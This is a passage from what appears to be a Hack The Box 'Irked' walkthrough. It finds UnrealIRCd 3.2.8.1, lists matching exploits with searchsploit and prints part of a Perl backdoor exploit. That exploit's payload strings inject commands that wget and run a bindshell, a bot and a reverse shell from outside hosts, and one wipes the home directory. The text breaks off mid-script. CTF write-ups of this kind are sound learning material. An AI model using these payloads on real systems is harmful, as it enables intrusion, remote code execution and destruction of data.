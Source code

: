 From the image above we can see that it is running ```Unreal 3.2.8.1```


## Searchsploit

**searchsploit** shows many some intrested exploits:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ searchsploit Unreal 3.2.8.1
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                             | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                                                                  | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                                                                           | linux/remote/13853.pl
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

So we can get a shell using **Metasploit**, but I got some comments to do things without Metasploit. Let's check the last exploit **13853.pl**:

```perl
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ cat /usr/share/exploitdb/exploits/linux/remote/13853.pl                                                                                                                                                                            1 ⚙
#!/usr/bin/perl
# Unreal3.2.8.1 Remote Downloader/Execute Trojan
# DO NOT DISTRIBUTE -PRIVATE-
# -iHaq (2l8)

use Socket;
use IO::Socket;

## Payload options
my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
my $payload4 = 'AB; killall ircd';
my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';

$host = "";
$port = "";
$type = "";
$host = @ARGV[0];
$port = @ARGV[1];
$type = @ARGV[2];

```